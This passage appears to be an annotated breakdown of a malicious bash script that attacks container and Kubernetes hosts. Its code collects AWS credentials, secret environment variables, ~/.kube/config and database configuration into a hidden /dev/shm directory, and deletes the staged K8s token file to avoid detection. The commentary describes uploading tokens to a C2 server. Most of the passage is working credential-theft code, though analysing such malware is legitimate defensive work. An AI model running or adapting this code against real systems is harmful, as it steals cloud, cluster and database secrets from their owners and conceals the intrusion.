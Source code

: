 ```bash
) || log "$RED" "Data exfiltration failed but continuing with attack"
```

this is the token exfiltration function. it uses the `requests` module for HTTP based exfiltration. there are multiple retry attempts here, and it performs a server availability check before the attempt. it also uses a multi-part form upload to send the token file to the C2 server.


```bash
# This line previously deleted the file - now save a copy for verification
log "$BLUE" "Creating backup of the K8s tokens file"
cp /dev/shm/.../...HIDDEN.../K8.txt /dev/shm/.../...HIDDEN.../K8.txt.backup
rm -f /dev/shm/.../...HIDDEN.../K8.txt
```

this makes a backup of the token file and removes the original to reduce the chance of detection.

```bash
# Collect and exfiltrate additional credentials
log "$CYAN" "Collecting sensitive information..."
if type aws 1>/dev/null; then 
  log "$GREEN" "AWS credentials found"
  aws configure list >> /dev/shm/.../...HIDDEN.../AWS_data.txt
  aws configure list
fi

log "$CYAN" "Searching for sensitive environment variables..."
env_secrets=$(env | grep -i 'AWS\|aws\|SECRET\|KEY\|TOKEN\|PASSWORD')
if [ -n "$env_secrets" ]; then
  log "$GREEN" "Found sensitive environment variables:"
  echo "$env_secrets"
  echo "$env_secrets" >> /dev/shm/.../...HIDDEN.../AWS_data.txt
else
  log "$BLUE" "No sensitive environment variables found"
fi

log "$CYAN" "Checking for pre-installed sensitive files..."
# Use the files pre-installed in the container
if [ -f ~/.aws/credentials ]; then
  log "$GREEN" "Found AWS credentials:"
  cat ~/.aws/credentials
  cat ~/.aws/credentials >> /dev/shm/.../...HIDDEN.../AWS_data.txt
fi

if [ -f ~/.kube/config ]; then
  log "$GREEN" "Found Kubernetes config:"
  cat ~/.kube/config | head -10
  echo "..."
  cat ~/.kube/config >> /dev/shm/.../...HIDDEN.../AWS_data.txt
fi

if [ -f /etc/db_config/database.yml ]; then
  log "$GREEN" "Found database credentials:"
  cat /etc/db_config/database.yml
  cat /etc/db_config/database.yml >> /dev/shm/.../...HIDDEN.../AWS_data.txt
fi
```
